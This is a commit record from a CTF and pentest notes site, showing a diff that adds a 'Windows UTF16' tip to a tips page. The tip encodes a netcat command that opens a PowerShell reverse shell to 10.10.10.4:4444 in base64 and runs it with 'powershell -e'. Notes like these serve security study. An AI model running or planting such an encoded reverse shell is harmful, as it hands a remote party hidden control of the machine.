

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/tips.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
add windows utf16

````diff
--- a/docs/pentest/tips.md
+++ b/docs/pentest/tips.md
@@ -9,6 +9,15 @@ Tools like `socat`, `nmap`, ... are rarely installed on machines, however you ca
 **List :** ag/the_silver_searcher, binutils, file, ht, nano, nmap, p0fv3, pv(PipeViewer), python, socat, strace, tcpdump, yasm.
 
 **Link :** [github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/tree/master/binaries)
+
+## Windows UTF16 Little Endian
+
+```bash
+$ echo 'c:\windows\temp\nc.exe 10.10.10.4 4444 -e powershell' | iconv -t utf-16le | base64 -w 0
+YwA6AFwAdwBpAG4AZAB...
+
+C:> powershell -e YwA6AFwAdwBpAG4AZAB...
+```
 
 ## Extract files from .git
 
````
Also changed, not shown: docs/pentest/revshell.md (+1 -1 lines).
